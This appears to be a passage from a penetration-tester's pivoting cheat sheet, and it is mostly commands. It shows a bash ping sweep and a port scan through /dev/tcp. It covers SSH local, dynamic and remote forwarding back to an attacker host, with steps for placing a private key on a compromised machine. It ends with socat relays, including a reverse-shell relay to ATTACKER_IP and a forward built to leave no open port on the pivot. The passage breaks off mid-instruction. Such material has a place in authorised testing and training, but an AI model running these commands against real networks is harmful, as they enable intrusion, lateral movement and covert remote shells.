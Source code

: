 ```bash
for i in {1..254}; do (ping -c 1 <SUBNET>.${i} | grep "bytes from" &); done

# B) Port Scan a Single Host (Very Slow)
# Scans all ports on a target IP. Best to use a smaller range (e.g., {1..1000}).
for i in {1..65535}; do (echo > /dev/tcp/<TARGET_IP>/$i) >/dev/null 2>&1 && echo "[+] Port $i is open"; done

#====================================================================
# 2. SSH TUNNELLING (Requires SSH access to the pivot machine)
#====================================================================
# Description: Uses a standard SSH client to forward ports or create a proxy.
# The '-fN' flags are used to background the connection and not execute a command.

| Type | Command | Description |
| :--- | :--- | :--- |
| **Local Port Forward (`-L`)** | `ssh -L <LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> user@<PIVOT_HOST> -fN` | Connects **from your attacker machine** to the pivot. Access `localhost:<LOCAL_PORT>` to reach the target. |
| **Dynamic Proxy (`-D`)** | `ssh -D <LOCAL_PORT> user@<PIVOT_HOST> -fN` | Connects **from your attacker machine**. Creates a SOCKS proxy on `localhost:<LOCAL_PORT>` to pivot all traffic through. Use with `proxychains`. |
| **Remote Port Forward (`-R`)** | `ssh -R <ATTACKER_PORT>:<TARGET_IP>:<TARGET_PORT> user@<ATTACKER_IP> -i keyfile -fN` | Connects **from the compromised pivot machine** back to your attacker machine. Useful when you have a shell but no direct SSH access *to* the pivot. |

# --- Setup for SSH Remote Port Forwarding (Reverse Connection) ---

# 1. (Attacker) Generate throwaway SSH keys:
ssh-keygen

# 2. (Attacker) Add public key to authorized_keys and restrict it to prevent a shell on your machine:
# Add this full line into ~/.ssh/authorized_keys
command="echo 'This key is for port forwarding only'",no-agent-forwarding,no-x11-forwarding,no-pty <CONTENTS_OF_PUBLIC_KEY.pub>

# 3. (Attacker) Ensure your SSH server is running:
sudo systemctl start ssh

# 4. (Target) Transfer the PRIVATE key to the compromised machine to initiate the connection.

#====================================================================
# 3. SOCAT (Versatile Relaying & Port Forwarding)
#====================================================================
# Description: A powerful tool for connecting two points. Requires uploading a
# static binary to the target machine.

| Type | Command (On Pivot Machine) | Description |
| :--- | :--- | :--- |
| **Reverse Shell Relay** | `./socat tcp-l:<RELAY_PORT> tcp:<ATTACKER_IP>:<ATTACKER_PORT> &` | Catches a reverse shell from an isolated machine and forwards it to your attacker machine. You need a listener on `<ATTACKER_PORT>`. |
| **Simple Port Forward** | `./socat tcp-l:<FORWARD_PORT>,fork,reuseaddr tcp:<TARGET_IP>:<TARGET_PORT> &` | Opens a port on the pivot machine. Any traffic sent to it gets forwarded to the internal target. |

# --- "Quiet" Socat Port Forward (No open port on pivot) ---

# 1. On ATTACKER machine:
# Creates a local relay between two ports.
socat tcp-l:<LOCAL_PORT_1> tcp-l:<LOCAL_PORT_2>,fork,reuseaddr &

# 2. On PIVOT machine:
```